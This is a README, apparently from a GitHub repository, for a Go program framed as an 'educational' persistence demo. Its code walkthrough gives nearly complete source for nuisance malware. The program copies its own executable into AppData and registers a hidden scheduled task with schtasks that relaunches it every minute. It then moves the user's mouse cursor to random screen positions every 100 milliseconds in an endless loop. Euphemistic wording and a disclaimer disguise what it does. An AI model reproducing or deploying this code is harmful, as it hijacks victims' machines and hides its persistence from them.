 

# Autonomous System Interaction Demo

*A Go-based exploration of persistence and dynamic system interaction* 

---

## Getting Started

### 1. Install Go

Download and install Go from the official website:
👉 [https://go.dev/dl](https://go.dev/dl)

After installation, verify by running:

```bash
go version
```

---

### 2. Clone the Repository

```bash
git clone https://github.com/yourusername/your-repo.git
cd your-repo
```

---

### 3. Build the Project for Windows

To compile the project as a Windows executable:

```bash
go build -o app.exe main.go
```

This will generate a file named **`app.exe`** in the current directory 

---

## Overview

This project is a lightweight **Go-based demonstration** that showcases techniques related to:

1. **File relocation into user data directories** for persistence 
2. **Automated relaunch scheduling** through the Windows task planner 
3. **Continuous dynamic interface activity** generated programmatically 

The implementation is purely for **educational and research purposes**, highlighting how persistence mechanisms and interactive system behaviors can be combined in a single application 

---

## Code Walkthrough

### 1 Relocating the Executable 

```go
exePath, _ := os.Executable()
appData := os.Getenv("APPDATA")
outPath := filepath.Join(appData, filepath.Base(exePath))

input, _ := os.ReadFile(exePath)
os.WriteFile(outPath, input, 0644)
```

* Detects its own binary location 
* Creates a duplicate inside the **AppData** directory, a common location for application support files 

---

### 2 Establishing Scheduled Relaunch 

```go
taskName := filepath.Base(exePath)
taskName = taskName[:len(taskName)-len(filepath.Ext(taskName))]
cmd := exec.Command("schtasks.exe", "/create", "/f", "/sc", "minute", "/mo", "1", "/tn", taskName, "/tr", outPath)
cmd.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
cmd.Run()
```

* Registers a scheduled task via Windows’ built-in **Task Scheduler** 
* Configured to trigger regularly, ensuring **persistence even after system restarts** 

---

### 3 Linking with System Libraries 

```go
user32 := windows.NewLazyDLL("user32.dll")
setCursorPos := user32.NewProc("SetCursorPos")
getSystemMetrics := user32.NewProc("GetSystemMetrics")

screenWidth, _, _ := getSystemMetrics.Call(0)
screenHeight, _, _ := getSystemMetrics.Call(1)
```

* Dynamically loads functions from **user32.dll**.
* Retrieves screen dimensions to define boundaries for interactive behavior 

---

### 4 Generating Continuous Activity 

```go
rand.Seed(time.Now().UnixNano())
for {
    x := rand.Intn(int(screenWidth))
    y := rand.Intn(int(screenHeight))
    setCursorPos.Call(uintptr(x), uintptr(y))
    time.Sleep(100 * time.Millisecond)
}
```

* Seeds a random generator with the current timestamp 
* Continuously produces new coordinate pairs 
* Sends instructions to reposition a system control element, creating **constant dynamic activity** on the interface 

---

## Disclaimer  

This repository is provided **strictly for research and educational demonstration** 
I (3582-490) am **not responsible** for any misuse of this project 
Running or modifying this program is entirely at the user’s own risk.
